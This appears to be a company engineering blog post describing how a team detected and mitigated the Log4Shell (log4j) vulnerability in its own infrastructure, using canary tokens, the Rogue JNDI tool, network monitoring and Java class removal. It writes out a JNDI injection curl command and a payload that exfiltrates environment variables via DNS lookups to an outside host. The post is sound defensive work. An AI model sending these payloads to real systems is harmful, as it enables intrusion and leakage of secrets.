 ![](/img/blog/log4j/01-canary-tokens.png)

If a DNS resolution is performed on the unique DNS hostname, we would get a callback or an email. After generating the token, we quickly proceed to probe our infrastructure:

```
curl https://docs.wgtwo.com  -A "\${jndi:ldap://randomlygeneratedhostname.canarytokens.com/a}"
```

After executing the command, we shortly received the notification from CanaryTokens. It means one of our elements of the infrastructure stack is relying on log4j. Nevertheless, we need to assess if the vulnerability is exploitable, so we check the Infosec literature.

JNDI stands for Java Naming and Directory Interface - it is a system designed to look up for data and resources, i.e. such as Java bytecode. It might sound wrong to the 2021 engineers but back in 2000 Java RMI, CORBA etc were very trendy concepts for discovering and executing code in a dynamic fashion - think like Javascript or ActiveX applets in the browser world.

Going back to our problem, we quickly found this [Rogue JNDI](https://github.com/veracode-research/rogue-jndi). This is basically an exploit generator that creates a fake LDAP server, replying with Java class objects that will be executed by log4j on object retrieval.  After building a quick docker image, we ran this exploit on an external host and execute several calls to check all the proposed types of payload:

![](/img/blog/log4j/02-supported-payloads.png)

In particular, RemoteReference did not yield to any execution, which means probably the JVM used to run the affected Java component is either too recent or not configured to execute code via known remote methods. This gives us some time, but we are still exposed to information leakage as an attacker can still exfiltrate env variables via DNS queries - i.e. log4j would resolve environment variables and would embed them in a query, such as:

```
${jndi:ldap://${env:JAVA_VERSION}.dnsresolver.foo}
```

Then, we should proceed to:
1) Identify if the affected components are in our stack or in the cloud provider
2) Apply mitigation
- Either via WAF - firewall rules on traffic.
- Either via known mitigation on the log4g components
  - Environment variable / JVM options
  - Java class removal
  - Full component upgrade

For (1), we started to observe all our log components and run network monitoring for a specific TCP flow on a controlled external host (i.e. running tcpdump toward a specific IP/port). We quickly noticed that a pod for one of DaemonSet was the culprit. This component was embedding logstash which is using Java and log4j.

Assuming this was the only element, we proceed to apply mitigation:
We discard the WAF approach as too complex and not providing enough coverage. We indeed saw later obfuscation of the `jndi:ldap` string used to trigger the vulnerability.
The environment variable / JVM options were the quickest to deploy, but yielded no result. Later on, the Elastic Log4j CVE dedicated page mentioned that the mitigation was ineffective.
Java class removal consists of removing the Java class from the classpath so that the component will not be able to resolve resources dynamically. Thanks to the use of Docker image, we can simply alter the build recipe to perform the removal and redeploy the image. In a couple of minutes, we can deploy the new logstash component.
